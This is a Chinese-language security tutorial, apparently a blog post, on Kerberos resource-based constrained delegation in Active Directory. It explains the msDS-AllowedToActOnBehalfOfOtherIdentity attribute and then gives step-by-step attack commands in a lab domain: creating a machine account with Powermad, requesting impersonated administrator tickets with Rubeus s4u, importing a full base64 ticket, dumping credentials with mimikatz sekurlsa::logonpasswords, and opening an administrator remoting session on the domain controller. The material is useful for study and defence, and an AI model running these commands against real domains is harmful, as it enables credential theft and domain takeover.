









# Kerberos委派之基于资源的约束委派

## 简介

基于资源的约束委派（Resource-Based Constrained Delegation）是在Windows Server 2012中新加入的功能。

此前的委派（约束委派和非约束委派）需要通过SPN来支持，需要将SPN注册到msDS-AllowedToDelegateTo属性中。而基于资源的约束委派是通过msDS-AllowedToActOnBehalfOfOtherIdentity，通过设置运行服务的计算机账户或者是服务账户。RBCD的设置是在被访问的一端来设置。被访问的服务可以自己决定谁有权限来访问自身。

## 如何设置RBCD

### RBCD配置

RBCD的设置可以通过命令来进行设置，修改LDAP中的msDS-AllowedToActOnBehalfOfOtherIdentity参数来进行设置。如果通过Powershell设置的话再设置之前需要安装Active Directory PowerShell模块，然后将该模块导入会话中：

```powershell
PS C:\> Add-WindowsFeature RSAT-AD-PowerShell
PS C:\> Import-Module ActiveDirectory
```

然后有多个cmdlet可以设置PrincipalsAllowedToDelegateToAccount参数：

```powershell
PS C:\> Get-Command -ParameterName PrincipalsAllowedToDelegateToAccount

CommandType Name                 ModuleName
----------- ----                 ----------
Cmdlet      New-ADComputer       ActiveDirectory
Cmdlet      New-ADServiceAccount ActiveDirectory
Cmdlet      New-ADUser           ActiveDirectory
Cmdlet      Set-ADComputer       ActiveDirectory
Cmdlet      Set-ADServiceAccount ActiveDirectory
Cmdlet      Set-ADUser           ActiveDirectory
```

如果提示没有这些命令则需要安装Active Directory PowerShell模块。

```powershell
Import-Module  ServerManager ; Add-WindowsFeature RSAT-AD-PowerShell
```

其中分别对应的是域账户、服务账户、和域中主机。PrincipalsAllowedToDelegateToAccount参数对应的就是LDAP中的参数msDS-AllowedToActOnBehalfOfOtherIdentity。其中包含可指定哪些账户有权限访问自身。也就是需要访问谁，就在谁上面设置中继的账户。

比如要在DC2012主机上设置将自身的委派凭据委派给testrbcd则可以使用命令：

```powershell
Set-ADComputer dc2012 -PrincipalsAllowedToDelegateToAccount testrbcd$
Get-ADComputer dc2012 -Properties PrincipalsAllowedToDelegateToAccount #查看结果的
```



### 其他相关配置

在使用Get-ADComputer(或者是Set-ADComputer等Active Directory PowerShell模块)中设置不同的委派会使用不同的参数。下面几个均为命令中的**参数**。

```
#无约束委派
TrustedForDelegation
#约束委派
TrustedToAuthForDelegation
#基于资源的约束委派
PrincipalsAllowedToDelegateToAccount
```

而userAccountControl是LDAP中的一个属性(打开ADSI编辑器在对应的属性中即可看到)。




## RBCD的流程

就像名字所说的，基于资源的约束委派，从流量上来看和约束委派还是差别不大的，首先会经过一个S4u2Self的流程（testrbcd申请能够访问自身的TGS），然后进行S4u2Proxy（申请访问特定SPN的TGS）。

这里的IP：192.168.16.133为发起攻击的主机，192.168.16.132为域控主机（DC2012）。



此时发起攻击的主机获取了能够访问DC2012的cifs服务的TGS票据。




## RBCD的利用

### NTLMRelay+RBCD的域内提权

此前网上是有各种利用方法的，但是最后实际上都是通过修改LDAP，再发起获取TGS的Kerberos请求，所以先说下基本的流程是什么样的。

1、首先在域控上（有权限配置主机LDAP即可）修改LDAP中的msDS-AllowedToActOnBehalfOfOtherIdentity属性（即通过上文所说命令）。其中dc2012为域控主机，testrbcd为域内其他主机（使用https://github.com/Kevin-Robertson/Powermad生成的一个虚拟的主机）。

```powershell
#Powermad生成主机命令
PS C:\>. .\Powermad.ps1
PS C:\>New-MachineAccount -MachineAccount testrbcd
#执行之后会提示输入密码
```

```powershell
Set-ADComputer dc2012 -PrincipalsAllowedToDelegateToAccount testrbcd$
Get-ADComputer dc2012 -Properties PrincipalsAllowedToDelegateToAccount
```



2、设置完成之后通过Rubues模拟发起请求。

```powershell
PS C:\> .\Rubeus.exe s4u /user:testrbcd$ /rc4:8bbe95fcb83756d902da7faccd2fa6e1 /domain:test.local /msds
spn:cifs/dc2012.test.local /impersonateuser:administrator
#PS C:\>.\Rubeus.exe s4u /user:[刚生成的主机名称] /rc4:[生成的主机密码的NTLM HASH值] /domain:[域名] /msds
spn:[SPN] /impersonateuser:administrator
```



首先可以看到请求发起之后提示S4U2Self success！此时testrbcd获取到验证自身的TGS票据。

随后获取到能够访问cifs/dc2012.test.local这个SPN的TGS票据。



然后再使用Rubues.exe这个工具就可以把TGS导入到内存中，随后就可以使用dir \\\dc2012\c$访问域控的C盘。

```powershell
PS C:\>.\Rubeus.exe ptt /ticket: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
```

实际上在获取了TGS之后，这就是一个PTT（Pass The Ticket）的过程。这个实验是通过手动设置的委派配置，但是个人认为这正是整个攻击过程中最核心的一点，其他通过修改计算机账户头像、SMB请求、Exchange的SSRF等等，最终的目的都是希望通过利用高权限的账户发起NTLM请求，然后中继到LDAP服务器，从而修改委派的配置（LDAP中的msDS-AllowedToActOnBehalfOfOtherIdentity参数）。

### 通过反射进行本地提权

通过设置自身对自身的委派（设置自身属性不需要高权限），然后请求访问自身的高权限TGS。

```powershell
#设置自己对自己的委派
Set-ADComputer win2012 -PrincipalsAllowedToDelegateToAccount win2012$
#查看
Get-ADComputer win2012 -Properties PrincipalsAllowedToDelegateToAccount
```

然后开启WINRM服务：

```powershell
Enable-PSRemoting -Force
```

使用Rubeus以域管理员身份访问当前计算机的HTTP服务。注意这里的rc4 hash值不能使用本地账号密码的HASH值，要使用主机账户的HASH值。使用mimikatz抓的：

```powershell
.\mimikatz.exe "privilege::Debug" "sekurlsa::logonpasswords" exit
```



然后使用Rubeus通过委派获取票据。

```powershell
.\Rubeus.exe s4u /user:win2012$ /rc4:c2b57f3b6e6ed5eee4b6f8866b814ac5 /domain:test.local /msdsspn:http/win2012.test.local /impersonateuser:administrator
#导入ticket票据
.\Rubeus.exe ptt /ticket:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

通过New-PSSession创建新的会话，然后通过Enter-PSSession开启会话。

```
New-PSSession -Name priv -ComputerName win2012.test.local
Enter-PSSession -Name priv
```

再执行whoami可以看到账户已经改变。



